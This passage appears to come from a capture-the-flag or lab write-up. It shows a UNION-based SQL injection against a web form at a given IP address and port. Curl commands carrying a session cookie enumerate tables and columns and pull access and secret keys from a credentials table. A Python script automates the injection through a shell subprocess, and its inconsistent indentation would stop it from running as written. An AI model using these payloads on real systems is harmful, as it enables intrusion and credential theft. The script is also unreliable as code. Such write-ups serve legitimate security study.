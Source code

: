 
By injecting UNION commands we can start to enumerate the database. To pull out the table names we can run the following curl multiple times, changing the `OFFSET` each time:

```bash
curl -v -X POST 47.242.21.212:8085 \
   -b 'SessionId=a706967504e8247d98ad7e583a11e002' \
   -H 'Content-Type: multipart/form-data' \
   -F "name=' UNION ALL SELECT TABLE_SCHEMA, TABLE_TYPE FROM information_schema.tables LIMIT 1 OFFSET '1"
```

We can also pull out the column names in each table using a similar method:
```bash
curl -v -X POST 47.242.21.212:8085 \
   -b 'SessionId=a706967504e8247d98ad7e583a11e002' \
   -H 'Content-Type: multipart/form-data' \
   -F "name=' UNION ALL SELECT access_key, secret_key FROM target_credentials LIMIT 1 OFFSET '1"
```

The following Python 3 script was written to do this enumeration automatically:
```python
import subprocess

def main():
     command = """
     curl -v -X POST 47.242.21.212:8085 \
    -b 'SessionId=a706967504e8247d98ad7e583a11e002' \
    -H 'Content-Type: multipart/form-data' \
    -F "name=' UNION ALL SELECT table_name, column_name FROM information_schema.columns LIMIT 1 OFFSET '{}"
     """

    for i in range(10):
        print(f"i = {i}")

        c = command.format(i)

        out = curl(c)
        if "Target not found" in out.decode("utf-8"):
            continue

        print(out)
        print()

def curl(command):
    p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    out, err = p.communicate()

    return out

main()
```
